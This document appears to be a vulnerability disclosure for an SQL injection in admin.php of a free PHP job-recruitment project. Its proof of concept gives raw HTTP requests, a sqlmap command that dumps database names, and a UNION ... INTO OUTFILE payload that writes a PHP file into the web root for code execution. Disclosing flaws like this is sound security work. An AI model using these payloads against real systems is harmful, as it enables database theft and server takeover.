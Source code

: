 # Job-recruitment-in-php has sql injection vulnerability in admin.php  

## supplier
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
admin.php
## describe
Through code audit, when there is an unauthorized SQL injection vulnerability in the admin.php of the Job_Recruitment systtem foreground login portal, all the information of the database can be obtained without authorization, and arbitrary commands may be executed. control parameter: **$userid**

## code analysis
The **$userid** parameters of the admin.php are not filtered and concatenated into the SQL statement for execution. 

![image-20241110223535966](https://github.com/user-attachments/assets/f9873589-53e0-4744-bd8a-0001cb911871))

## POC

### get data from databases;

```
POST /admin.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/admin.php/
Cookie: PHPSESSID=ae0a2j2ltu9oha37giuamhqjkn
Upgrade-Insecure-Requests: 1
Priority: u=0, i

action=delete_user&userid=1*
```

save as 1.txt 

and excute the command

```
python sqlmap.py -r 1.txt --dbs
```

get database: owlphin

![image-20241110215358910](https://github.com/user-attachments/assets/5f24609f-82a2-4c09-872d-57b3b685ad73)

### RCE

```
POST /admin.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 142
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/admin.php/
Cookie: PHPSESSID=ae0a2j2ltu9oha37giuamhqjkn
Upgrade-Insecure-Requests: 1
Priority: u=0, i

action=delete_user&userid=1'+union+select+'<?php phpinfo();?>'+into+outfile+'D:/phpstudy_pro/WWW/ai-recruitment-system-master/phpinfo.php'--+#
```

result

![image-20241111092339446](https://github.com/user-attachments/assets/4c7f05fa-02f1-4b0b-994f-95f8be2f716b)
